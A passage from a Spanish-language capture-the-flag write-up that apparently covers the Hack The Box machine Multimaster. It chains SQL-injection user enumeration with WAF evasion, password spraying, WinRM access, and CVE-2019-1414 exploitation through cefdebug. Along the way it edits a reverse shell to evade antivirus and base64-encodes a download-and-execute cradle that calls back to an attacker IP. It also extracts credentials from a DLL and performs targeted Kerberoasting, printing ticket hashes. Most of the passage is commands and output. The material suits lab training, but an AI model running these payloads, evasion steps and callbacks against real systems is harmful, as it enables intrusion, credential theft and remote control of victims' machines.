    i = hex(i)[2:].upper()  # Convertimos el número a su representación hexadecimal y lo convertimos a mayúsculas.
    if len(i) < 4:
        i = '0' + i  # Aseguramos que siempre tengamos cuatro caracteres en el número hexadecimal.

    # Reversamos los bytes del número hexadecimal.
    t = bytearray.fromhex(i)
    t.reverse()  # Invertimos los bytes.
    t = ''.join(format(x,'02x') for x in t).upper()+'0'*4  # Formateamos los bytes invertidos en mayúsculas.

    # Construimos el SID a partir del número hexadecimal procesado.
    sid = '0x0105000000000005150000001c00d1bcd181f1492bdfc236{}'.format(t)

    # Creamos el payload que se enviará en la petición, buscando la función SUSER_SNAME.
    payload = "hello' UNION SELECT 1,SUSER_SNAME({}),3,4,5--".format(sid)  
    r = requests.post(url,data='{"name":"'+ encode_me(payload) + '"}',headers={'Content-Type': 'Application/json'})

    # Convertimos la respuesta a un objeto JSON para obtener el nombre del usuario.
    user = json.loads(r.text)[0]["name"]

    # Si se encontró un usuario, lo imprimimos.
    if user:
        print(user)

    # Hacemos una pausa entre las peticiones para evitar ser detectado por sistemas de seguridad (WAF).
    sleep(3)
```


Al proceder a ejecutar el script creado, revisaremos que nos muestra nombres de usuarios y lo que parecen ser grupos de seguridad.

```bash
❯ python3 ridenum_mssql.py
MEGACORP\MULTIMASTER$
MEGACORP\DnsAdmins
MEGACORP\DnsUpdateProxy
MEGACORP\svc-nas
MEGACORP\Privileged IT Accounts
MEGACORP\tushikikatomo
MEGACORP\andrew
MEGACORP\lana
```

## Initial Access

### Password Spraying

Guardaremos estos nuevos usuarios en el archivo que disponíamos `users.txt` y procederemos a intentar validar nuevamente a través de _**Password Spraying**_. Verificamos que hemos logrado obtener credenciales válidas para el usuario `tushikikatomo@megacorp.local`.

```bash
❯ nxc smb 10.10.10.179 -u users.txt -p passwords.txt --continue-on-success
...[snip]...
SMB         10.10.10.179    445    MULTIMASTER      [+] MEGACORP.LOCAL\tushikikatomo:finance1 
...[snip]...
```

### LDAP Enumeration (ldapdomaindump)

Al obtener credenciales válidas de un usuario del dominio, procederemos a realizar un dump del LDAP para obtener más información relevante.

```bash
❯ ldapdomaindump -u 'sequel.htb\tushikikatomo' -p 'finance1' 10.10.10.179 -o ldap
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished

❯ cd ldap

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Al revisar los archivos HTML generados por la herramienta de `ldapdomaindump`, verificamos todos los nombres de usuario del dominio existentes.&#x20;

Por otro lado, revisando el grupo `Remote Management Users`, verificamos que el usuario que disponemos actualmente forma parte de dicho grupo, por lo tanto, si el servicio WinRM o RDP se encuentran habilitados podríamos conectarnos al equipo.

<figure><figcaption></figcaption></figure>

### Abusing WinRM - EvilWinRM

Procederemos a autenticarnos al WinRM mediante la herramienta de `evil-winrm` y verificamos el correcto acceso y la flag de **user.txt`.`**

```bash
❯ evil-winrm -i 10.10.10.179 -u 'tushikikatomo' -p 'finance1'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\alcibiades\Documents> type ../Desktop/user.txt
2b2455fff8**********************
```

## Lateral Movement to cyork user

Revisando los directorios donde está montado el IIS (Internet Information Services) verificamos que no disponemos de acceso al directorio `wwwroot`.

```powershell
*Evil-WinRM* PS C:\inetpub\wwwroot> ls
Access to the path 'C:\inetpub\wwwroot' is denied.
At line:1 char:1
+ ls
+ ~~
    + CategoryInfo          : PermissionDenied: (C:\inetpub\wwwroot:String) [Get-ChildItem], UnauthorizedAccessException
    + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
```

### CEF Debugging Background (CVE-2019-1414)

Revisando las aplicaciones que se encuentran instaladas, verificamos que en la máquina se encuentra instalado la aplicación de `Microsoft Visual Studio Code`.

```powershell
*Evil-WinRM* PS C:\Program Files> ls


    Directory: C:\Program Files


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        9/25/2019  10:59 AM                Common Files
d-----         1/9/2020   2:39 PM                Internet Explorer
d-----         1/7/2020   9:40 PM                Microsoft
da----         1/7/2020   7:47 PM                Microsoft SQL Server
d-----         1/7/2020   7:26 PM                Microsoft Visual Studio 10.0
da----         1/9/2020   3:18 AM                Microsoft VS Code
d-----         1/7/2020   7:27 PM                Microsoft.NET
d-----         1/7/2020   9:43 PM                Reference Assemblies
d-----        7/19/2021   1:07 AM                VMware
d-r---         1/9/2020   2:46 PM                Windows Defender
d-----         1/9/2020   2:39 PM                Windows Mail
d-----         1/9/2020   2:39 PM                Windows Media Player
d-----        7/16/2016   6:23 AM                Windows Multimedia Platform
d-----        7/16/2016   6:23 AM                Windows NT
d-----         1/9/2020   2:39 PM                Windows Photo Viewer
d-----        7/16/2016   6:23 AM                Windows Portable Devices
d-----        7/16/2016   6:23 AM                WindowsPowerShell
```

Revisando la versión del `Microsoft VS Code` que se encuentra instalada en el equipo, verificamos que se trata de una versión vulnerable al _**Remote Code Execution**_ (`CVE-2019-1414`).

```powershell
*Evil-WinRM* PS C:\Program Files\Microsoft VS Code> (Get-Command .\Code.exe).version

Major  Minor  Build  Revision
-----  -----  -----  --------
1      37     1      0
```

Revisando los procesos que se encuentran en ejecución, verificamos que hay procesos sobre la aplicación en funcionamiento, por lo que podríamos llegar a pensar que hay alguien ejecutando estos procesos.

```powershell
*Evil-WinRM* PS C:\Users\alcibiades\Documents> ps

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    314      30    49612      73404               180   1 Code
    612      41    38972      82612               520   1 Code
    285      51    58000      74612              3144   1 Code
    406      22    15100      24416              3288   1 Code
    418      55   133956     170140              6368   1 Code
    200      15     6164      12856              6860   1 Code
...[snip]...
```

Esta es la descripción del CVE que hemos encontrado, se aprovecha del `debug listener` para lograr ejecutar comandos y escalar privilegios.

<figure><figcaption></figcaption></figure>

Por lo tanto, procederemos a descargarnos el binario de `cefdebug.exe` del siguiente repositorio de GitHub.



Una vez tengamos el binario en nuestro equipo atacante, procederemos a levantar un servidor web con Python para compartir este archivo al equipo víctima.

```bash
❯ ls
 cefdebug.exe   README.md

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde el equipo víctima (Windows), procederemos a descargarnos el binario de `cefdebug.exe` y lo depositaremos en la siguiente ruta `C:\Windows\System32\spool\drivers\color` para que el AppLocker no nos impida ejecutarlo.


```powershell
*Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> IWR -Uri http://10.10.16.5/cefdebug.exe -OutFile cef.exe
```


Por otro lado, lo que probaremos primero de todo es revisar si desde el equipo víctima nos podemos establecer una Reverse Shell con los scripts de Nishang. En este caso, el script que utilizaremos es el de `Invoke-PowerShellTcp.ps1`.



En una terminal de nuestro equipo atacante, nos pondremos en escucha para recibir la Reverse Shell.

```bash
❯ rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
```

Renombraremos el archivo `Invoke-PowerShellTcp.ps1` a `rev.ps1` para que nos sea más cómodo trabajar con este archivo y que pase más desapercibido por el AV (Antivirus).

Deberemos de editar el script y añadir al final de este mismo, la línea que nos permite realizar la Reverse Shell, la adaptaremos con nuestra dirección IP de atacante y el puerto por donde nos encontramos en escucha con `nc`.&#x20;

Volveremos nuevamente a levantar un servidor web con Python para compartir este archivo con la máquina víctima.

```bash
❯ tail -n 1 rev.ps1
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.5 -Port 443

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde la máquina comprometida, procederemos a ejecutar en memoria la Reverse Shell que estamos compartiendo desde nuestro servidor web. Verificamos que el script ha sido detectado por el AV (Antivirus) y nos lo ha bloqueado.

```powershell
*Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> IEX (New-Object Net.WebCLient).downloadString("http://10.10.16.5/rev.ps1")
At line:1 char:1
+ function Invoke-PowerShellTcp
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
At line:1 char:1
+ IEX (New-Object Net.WebCLient).downloadString("http://10.10.16.5/rev. ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ParserError: (:) [Invoke-Expression], ParseException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent,Microsoft.PowerShell.Commands.InvokeExpressionCommand
*Evil-WinRM* PS C:\Windows\System32\spool\drivers\color>
```

Para intentar evitar que nos detecte el AV el script de la Reverse Shell, procederemos a modificar el archivo que disponemos `rev.ps1`para eliminarle las líneas donde hay comentarios y a modificar el nombre de la función para que no sea detectado. Deberemos de cambiar el nombre de la función de la primera y última sentencia por una nueva que pase desapercibida.

Una vez modificado el script `rev.ps1`, procederemos a ejecutar en memoria nuevamente el Script y en este caso verificamos que hemos logrado obtener la Reverse Shell correctamente.

```bash
❯ rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.179] 49918
Windows PowerShell running as user tushikikatomo on MULTIMASTER
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\System32\spool\drivers\color>whoami
megacorp\tushikikatomo
```

Por otro lado, para que sea menos detectable la ejecución del IEX para obtener la Reverse Shell, lo que realizaremos es codificar en Base64 de Windows el comando utilizado.


```bash
❯ echo 'IEX(New-Object Net.WebClient).downloadString("http://10.10.16.5/rev.ps1")' | iconv -t utf-16le | base64 -w 0; echo

SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAIgBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANgAuADUALwByAGUAdgAuAHAAcwAxACIAKQAKAA==
```


Desde el equipo víctima, procederemos a ejecutar en una PowerShell el comando codificado en Base64.


```powershell
*Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> powershell -e <BASE64_CODE>
```


Verificaremos nuevamente que nos funciona correctamente la ejecución del IEX codificado en Base64.

```bash
❯ rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.179] 49937
Windows PowerShell running as user tushikikatomo on MULTIMASTER
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\System32\spool\drivers\color>
```

Una vez comprobado que podemos establecernos una Reverse Shell a través de un comando codificado en Base64, el siguiente paso será intentar realizar la explotación del CVE encontrado.

El primer paso será ejecutar el `cef.exe` (cefdebug) para realizar un escaneo de la máquina y verificar los servidores que se encuentran abiertos que parecen ser `CEF debuggers`.

```powershell
*Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> ./cef.exe
cef.exe : [2025/01/13 11:09:28:7999] U: There are 3 tcp sockets in state listen.
    + CategoryInfo          : NotSpecified: ([2025/01/13 11:...n state listen.:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
[2025/01/13 11:09:48:8442] U: There were 1 servers that appear to be CEF debuggers.
[2025/01/13 11:09:48:8442] U: ws://127.0.0.1:27031/fc016429-c7d8-4b91-82b7-026f514c68f3
```

Con el servidor obtenido, procederemos a realizar una ejecución del comando `whoami` para almacenar el resultado de la ejecución del comando realizado en un archivo TXT y visualizar si hemos logrado ejecutar comandos arbitrarios.

Al verificar el TXT que se nos ha generado, verificamos que el resultado del comando utilizado nos muestra que quien ejecuta el comando es el usuario `cyork@megacorp.local`.

```powershell
*Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> ./cef.exe --code "process.mainModule.require('child_process').exec('whoami > C:\\Windows\\System32\\spool\\drivers\\color\\gzzcoo.txt')" --url ws://127.0.0.1:27031/fc016429-c7d8-4b91-82b7-026f514c68f3

*Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> ls


    Directory: C:\Windows\System32\spool\drivers\color


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/13/2025  11:09 AM         259584 cef.exe
-a----        7/16/2016   6:18 AM           1058 D50.camp
-a----        7/16/2016   6:18 AM           1079 D65.camp
-a----        7/16/2016   6:18 AM            797 Graphics.gmmp
-a----        1/13/2025  11:13 AM             16 gzzcoo.txt
-a----        7/16/2016   6:18 AM            838 MediaSim.gmmp
-a----        7/16/2016   6:18 AM            786 Photo.gmmp
-a----        7/16/2016   6:18 AM            822 Proofing.gmmp
-a----        7/16/2016   6:18 AM         218103 RSWOP.icm
-a----        7/16/2016   6:18 AM           3144 sRGB Color Space Profile.icm
-a----        7/16/2016   6:18 AM          17155 wscRGB.cdmp
-a----        7/16/2016   6:18 AM           1578 wsRGB.cdmp


*Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> type gzzcoo.txt
megacorp\cyork
```

Sabiendo que quien ejecuta los comandos es otro usuario, la idea será lograr ejecutar una Reverse Shell para obtener acceso como el usuario recién mencionado. Utilizaremos el servidor que hemos encontrado y al ejecutar en una PowerShell el comando IEX anteriormente codificado en Base64 para que a la hora de ejecutar el comando sea descodificado y así lograr obtener la Reverse Shell.

Previamente de la ejecución del comando, deberemos de ponernos en escucha con `nc` en nuestra Kali.


```powershell
*Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> ./cef.exe --code "process.mainModule.require('child_process').exec('powershell -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAIgBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANgAuADUALwByAGUAdgAuAHAAcwAxACIAKQAKAA==')" --url ws://127.0.0.1:27031/fc016429-c7d8-4b91-82b7-026f514c68f3
```


Verificamos que hemos logrado obtener acceso correctamente como el usuario `cyork@megacorp.local`.

```bash
❯ rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.179] 49824
Windows PowerShell running as user cyork on MULTIMASTER
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files\Microsoft VS Code>whoami
megacorp\cyork
```

## Lateral Movement to sbauer user

### MultimasterAPI.dll

Revisando los privilegios, permisos que disponemos con el usuario `cyork`, verificamos que disponemos acceso del directorio `C:\inetpub\wwwroot\bin` en la cual después de una gran revisión verificamos que al parecer hay un DLL nombrado `MultimasterAPI.dll`.&#x20;

Este DLL se trata de una API (Application Programming Interface) personalizada de la página web del equipo. Como en máquinas de HTB anteriores, los archivos DLL suelen tener información sensible.

```powershell
PS C:\inetpub\wwwroot\bin> ls


    Directory: C:\inetpub\wwwroot\bin


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                          
        
d-----         1/7/2020   9:28 PM                roslyn                                                                
-a----        2/21/2013   7:13 PM         102912 Antlr3.Runtime.dll                                                    
-a----        2/21/2013   7:13 PM         431616 Antlr3.Runtime.pdb                                                    
-a----        5/24/2018   1:08 AM          40080 Microsoft.CodeDom.Providers.DotNetCompilerPlatform.dll                
-a----        7/24/2012  11:18 PM          45416 Microsoft.Web.Infrastructure.dll                                      
-a----         1/9/2020   4:13 AM          13824 MultimasterAPI.dll                                                    
-a----         1/9/2020   4:13 AM          28160 MultimasterAPI.pdb                                                    
-a----        2/17/2018   8:14 PM         664576 Newtonsoft.Json.dll                                                   
-a----       11/27/2018  11:30 PM         178808 System.Net.Http.Formatting.dll                                        
-a----       11/27/2018  11:28 PM          27768 System.Web.Cors.dll                                                   
-a----        1/27/2015   2:34 PM         139976 System.Web.Helpers.dll                                                
-a----       11/27/2018  11:31 PM          39352 System.Web.Http.Cors.dll                                              
-a----       11/27/2018  11:31 PM         455096 System.Web.Http.dll                                                   
-a----        1/31/2018  10:49 PM          77520 System.Web.Http.WebHost.dll                                           
-a----        1/27/2015   2:32 PM         566472 System.Web.Mvc.dll                                                    
-a----        2/11/2014   1:56 AM          70864 System.Web.Optimization.dll                                           
-a----        1/27/2015   2:32 PM         272072 System.Web.Razor.dll                                                  
-a----        1/27/2015   2:34 PM          41672 System.Web.WebPages.Deployment.dll                                    
-a----        1/27/2015   2:34 PM         211656 System.Web.WebPages.dll                                               
-a----        1/27/2015   2:34 PM          39624 System.Web.WebPages.Razor.dll                                         
-a----        7/17/2013   4:33 AM        1276568 WebGrease.dll 
```

Para compartirnos este archivo de la máquina víctima a nuestra máquina local, desde esta última procederemos a levantar un servidor SMB con `smbserver.py`.

```bash
❯ smbserver.py smbFolder $(pwd) -smb2support
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

Al tener nuestro servidor SMB montado, procederemos a realizar una copia al servidor SMB que disponemos.


```powershell
PS C:\inetpub\wwwroot\bin> copy MultimasterAPI.dll \\10.10.16.5\smbFolder\MultimasterAPI.dll
```


Verificamos en nuestro equipo local que disponemos del archivo DLL correctamente transferido.

```bash
❯ ls -l MultimasterAPI.dll
.rwxrwxr-x kali kali 14 KB Thu Jan  9 22:22:44 2020  MultimasterAPI.dll
```

### Debugging with dnSpy

Procederemos a depurar el archivo DLL a través de la herramienta de `dnSpy` que podemos encontrar en el siguiente repositorio de GitHub. En este caso, hemos transferido el archivo en una VM de Windows para realizar el análisis.



Al realizar una enumeración del DLL, revisamos que aparece en texto plano las siguientes credenciales `D3veL0pM3nT!`.

<figure><figcaption></figcaption></figure>

### Password Spraying

Al realizar un _**Password Spraying**_ sobre la contraseña encontrada y el listado de usuarios del dominio que disponemos, verificamos que esta

```bash
❯ nxc smb 10.10.10.179 -u users.txt -p 'D3veL0pM3nT!' --continue-on-success
...[snip]...
SMB         10.10.10.179    445    MULTIMASTER      [+] MEGACORP.LOCAL\sbauer:D3veL0pM3nT! 
...[snip]...
```

## BloodHound Enumeration

A continuación, procederemos a realizar una enumeración del dominio entero a través de `BloodHound`. El siguiente comando nos creará un archivo `.zip` el cual contendrá toda la información del dominio. Lo que buscamos en realizar esta enumeración es buscar posibles vectores de ataque para escalar nuestros privilegios.

```bash
❯ bloodhound-python -c All -ns 10.10.10.179 -u 'tushikikatomo' -p 'finance1' -d megacorp.local --zip
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: megacorp.local
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: MULTIMASTER.MEGACORP.LOCAL
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: MULTIMASTER.MEGACORP.LOCAL
INFO: Found 28 users
INFO: Found 57 groups
INFO: Found 2 gpos
INFO: Found 10 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: MULTIMASTER.MEGACORP.LOCAL
INFO: Done in 00M 16S
INFO: Compressing output into 20250113181515_bloodhound.zip
```

Revisando en `BloodHound`, verificamos que solamente el usuario `Administrator` es un `Domain Admin`.

<figure><figcaption></figcaption></figure>

Revisando si existe algún usuario que sea susceptible a _**Kerberoasting Attack**_, es decir, aquellos usuarios que tengan un SPN (ServicePrincipalName) para solicitar posteriormente un TGS (Ticket Granting Service).

En este caso, verificamos que no hay ningún usuario que sea Kerberostable.

<figure><figcaption></figcaption></figure>

Al verificar si algún usuario dispone de la flag (_DONT\_REQ\_PREAUTH_) de Kerberos para realizar un _**AS-REP Roast Attack**_ y así lograr obtener un TGT (Ticket Granting Ticket), verificamos que ningún usuario tiene configurado esa opción.

<figure><figcaption></figcaption></figure>

Enumerando a través de `BloodHound`, verificamos que el usuario que disponemos actualmente `sbauer@megacorp.local` dispone de privilegios `GenericWrite` sobre el usuario `jorden@megacorp.local`.

<figure><figcaption></figcaption></figure>

Este permiso lo que nos permite es la habilidad de escribir en atributos no protegidos sobre el objeto objetivo. Por ejemplo, podemos asignarle la flag de (_DONT\_REQ\_PREAUTH_) para que el usuario objetivo sea susceptible al _**AS-REP Roast Attack**_ o asignarle un SPN (ServicePrincipalName) fícticio para que el usuario sea Kerberostable y obtener el TGS (Ticket Granting Service) para obtener el hash y posteriormente crackearlo.

<figure><figcaption></figcaption></figure>

## Lateral Movement to jorden user

### **Abusing GenericWrite privileges to assign an SPN for performing a Kerberoasting attack**

En esta primera sección, lo que realizaremos es asignarle un SPN (ServicePrincipalName) ficticio al usuario objetivo `jorden@megacorp.local` para obtener el TGS (Ticket Granting Service), es decir, un hash que posteriormente podremos intentar crackear de manera offline y obtener la contraseña en texto plano.

#### Antes de la explotación

Tal como habíamos verificado en la enumeración de `BloodHound`, no había ningún usuario que sea Kerberostable. Esto lo hemos podido comprobar nuevamente tal y como nos indica el resultado del ataque de _**Kerberoasting Attack**_ realizado.

```bash
❯ impacket-GetUserSPNs -dc-ip 10.10.10.179 megacorp.local/sbauer -request 2>/dev/null
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
No entries found!
```

#### Después de la explotación

Para realizar la explotación y abusar del privilegio `GenericWrite` sobre el usuario y asignarle un SPN ficticio, lo podremos hacer a través de las herramientas `bloodyAD` y `impacket-GetUserSPNs`.

A través del primer comando, lo que realizamos es asignarle un SPN (ServicePrincipalName) ficticio al usuario. Al volver a lanzar el ataque de _**Kerberoasting Attack**_, verificamos que ahora si nos aparece que haya un usuario Kerberoastable y nos devuelve el hash TGS (Ticket Granting Service).

```bash
❯ bloodyAD --host 10.10.10.179 -d megacorp.local -u 'sbauer' -p 'D3veL0pM3nT!' set object "jorden" servicePrincipalName -v "cifs/gzzcoo"
[+] jorden's servicePrincipalName has been updated

❯ impacket-GetUserSPNs -dc-ip 10.10.10.179 megacorp.local/sbauer -request 2>/dev/null
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
ServicePrincipalName  Name    MemberOf                                      PasswordLastSet             LastLogon  Delegation 
--------------------  ------  --------------------------------------------  --------------------------  ---------  ----------
cifs/gzzcoo           jorden  CN=Developers,OU=Groups,DC=MEGACORP,DC=LOCAL  2020-01-10 01:48:17.503303  <never>               


[-] CCache file is not found. Skipping...
$krb5tgs$23$*jorden$MEGACORP.LOCAL$megacorp.local/jorden*$2a6e1db70bc6b71b9dde07b99f410654$9c192702404f1ad82ae704a5cc8f6cb84ab26ab33e52864e7371fbad87df5b2f893a148f5f752784ec5e9f4a1f65479f357ec58103478ffebfec3b5801b54416f2c1f82ea7a7a83903717992feb83029c3b845d09db12ab3314d26953e819e78db0be5d32b02e3c1e3c4b290cd49f4cb74b0d843c55c6816d8f2c5c987047fd925178e89025601cdd958ed26d055403964842e297d2702734db02b9f23b127a22e56c5a4110cc9354f4f62931534820587d99243a6dca00fe7d209fb069f17b36b0743c7b6d2b4b8627dff9741d585967168d4a6fea18dbfcfa63160fabaa92317882f95adac2a5aae29b00527f7163e026d20287f0c772fea5f45527e3544cf1b4155510238ede88d8c40c73bfc80ed5cfd4efea78e77f0b539731ebb1165571e8b90d023f4784b744818cc9cd17ed3b91f67c1595f729b02eec154fef1b06ad4830b024892e8e1ff6601af120fbbf25ef7d444d3e99d625ecf8fcf7dd837bebc8f19a4eab05f2d63c628ce8361ded918ee7441d2a64c6d73ee71c576598c13bc04b6e98b84bb1340ac0ead118efcf3d1ece3789c297504a309c92247d0e021854c4d931caca5f87d6401cf8bdd17d9e6d4cba8270d2482636cd47cecf3f0b96c1807164ea04e7a09f44e7bfd4361ff0ae9ac23de5d51c5cbbecf51f17f3145eac49ddb20f0ab03f7697fe9298ed68a1110a90e8b49c528698e189742efc019a59c3f4cfb4edfc23307d14557b9bb3d8e5d12c4a5f4614ed1fefd90fb42217c0fa3031a317d0db5c96fed0e579a1b77d41a883e9f62dfe7d94d9a65c716c457712e2d86cdf242be44dd4ec530eebd5bd9ef61b31d1b39a8e6a8dc350533ffd782c9bd42b040b462fdb1a44454412bf6a6d4f709273b8cdebc827cdd2e9357fa834f58651320aeb836c2e66f383d6fe5b38eff2f625d604cd5cef2206f1e3a9f9e69a80a630bf4f9d9c16b1010488edb3d4af5667df8ea8b37f365294d655410366a47991dec36cc09058c321b99fbc8641b6c0df3d73e158cd9ed754a1cbd394587610f1643f3d06191911b21d3e446ce0b85c065f3848c61aa5f1b2a7dbc1d34a9079f3f9645ebffa9c2ead6e1f8fecfba87127f6ed9870d6c0ee34690dc589eeb153880ee92c5ef9841a0e17b0c87365f45d55d4e42c2c9aae388b52a353c8268b7bd769fc186d55e6dd835e8e0c750bc6eb24f67aba0c502d4f09f7ab793b328abd920862b9401255677bed9b92f097a40e8cbf67746e371d85858c2bcf49d426d344fd52341cf722bf426df7efdca897be63777960bacb12890979917e3a6d59bd7dace8255d551230af4db1f8faf45cd9815a39e0e0713d738fbee36b1cfd67e2f57d49f8d37418a494a
```

Otra de las herramientas para realizar este tipo de ataques de asignar un SPN ficticio a un usuario el cual dispongamos de privilegios, es a través de la herramienta de `targetedKerberoast`.



Esta herramienta automatiza el ataque de _**Kerberoasting Attack**_, solamente nos hace falta disponer de un usuario que tenga privilegios sobre otro para asignarle el SPN y la propia herramienta buscará a los usuarios objetivos, les asignará un SPN ficticio y nos imprimirá los hashes obtenidos.

Para finalizar, la propia herramienta eliminará el SPN temporal asignado a los usuarios objetivos para evitar dejar rastro.

```bash
❯ python3 /opt/targetedKerberoast/targetedKerberoast.py --dc-ip 10.10.10.179 -d megacorp.local -u 'sbauer' -p 'D3veL0pM3nT!'
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[+] Printing hash for (jorden)
$krb5tgs$23$*jorden$MEGACORP.LOCAL$megacorp.local/jorden*$be06863d92e9721cc729f5e1eec12a2a$718d4eb0c3399da1f6cd0d3bee36bf1ec785617a598d1af2f7489db8ad0f92b36fb3e6dcf8e415d545062a304dbe127d7ad35e4647d57745093f0feeae5358914a33c3037a42edba8208cc411a9794d3fe0fb0f9c580e84184c6739dff9fbd2d66a4f89cd32a39a19c112fcb576bce48ac5ad0b7ae0ff0dbc9e8de85b1ca7423f82b78af866ccd9c71ceb05f8241121fd4ec9d9754d85ce8482b83676e8ba1d4c68783f174c5b12c89fa2dd72570107d2689304411ade47e1aa2ae120da74b7b718fd2547f960ce5c73c296f861b6c16483600bc9f109c8884b676e463a5ff354eec41d26ff87c88ff6d2dd4555e46c2aada265ceffd16f4ebe221ce999d9018bd6ea8125bd5f9c8e8e3cd10abf8c40c503d5e4bb18a430b140ad9dabc51131c45bfb105ea7d2f384b669fc7db91647b70f8929cb25c760313f1b6f836e28b40009b39337dcdf9fa4ca51a2cfffaa245b4024fd653141ad1e70d0753dd47b35002a55c5e124ffbe925d38a5aec3022892870f2e69773038c0009886e58cdebbda89030a2a8a8c0cbb97f8b16c2c0b341ff51eb90afb3303787ab942a14a5b24a17a2d9df4c2aa1358b70cf0958c3e8e88d1a9b5556d6751bb572bc91db79a3035e16d00ecd57f1eb7174cad879dea5a37e41e6842b8d2761ac0a00fe069436378c8d754b4c3614847e9660b62b302e2177410818115502d06312075a0e7af46f855cced6978e01d1df9a0c0ad4d9b4deb7c47bc9f19711f5edbe41b0df905d5d552351de2201ca0471266a64279970fdd7a1d600470a60f7b87e0393bf75fa773ff121a4cfacdb3f443659ca3c53da14a695179e7772382aa88e43ef86f3e462e2a37d39e22ea7589ac7e649e35b6113f656b6deb69b0ea5f42e55c88fea06716b37b1a089e6da8442983f0f8c1868a86455d766f17aa6c5ab965fc27a2058f70faaa0d24241e7cb594ccfdd33566b6a9b9595610b1f63968b2d2c27e0954d2bf009de3c438f6fbce841e5d4f3277c8e90554a76252951a489b9eacf3091c6da86873872c573fee255c8cc2ee0544afc2afc553c2c76531592c42935e4249dedb04409ef9594ecb723c8226cac72fa1eec0275c1b62d197bcc78dd3cc82a91664479e8724fb9308461e30a2a5e546b34d367fe52b3abc845ce23d36e419162e9c33e77ceb7fca0aa492f59c4204647b8d33080dc11b90b91b6169029808af527f6c6acb1ccc848e3771a0accbf4c7ba75381be92f112ec08e3758b0d205d2cae74e52eb1d0b78731a0713467cf01bc2adfc19623ac8389a8513965001cfc55b57d11091c90b5c835e7109883e68a83409e9e390924cf18defb21e13cd759ec92a858f926f42e713c52546b0c8c
```

### **Abusing GenericWrite privileges to set DONT\_REQ\_PREAUTH for AS-REP Roasting**

En la siguiente sección, lo que realizaremos es asignar al usuario objetivo `jorden@megacorp.local` la flag (_DONT\_REQ\_PREAUTH_) de Kerberos para que sea susceptible a _**AS-REP Roast Attack**_ para obtener un TGT (Ticket Granting Ticket)_**.**_ Es decir, si logramos asignarle esa opción al usuario, recibiremos un hash que posteriormente podremos intentar crackear de manera offline y obtener la contraseña en texto plano.

#### Antes de la explotación

Tal como se nos indicaba en `BloodHound`, ninguno de los usuarios del dominio tenian asignado esa flag, eso lo hemos verificado nuevamente al realizar el ataque de _**AS-REP Roast Attack**_.

```bash
❯ impacket-GetNPUsers -no-pass -usersfile users.txt megacorp.local/ 2>/dev/null
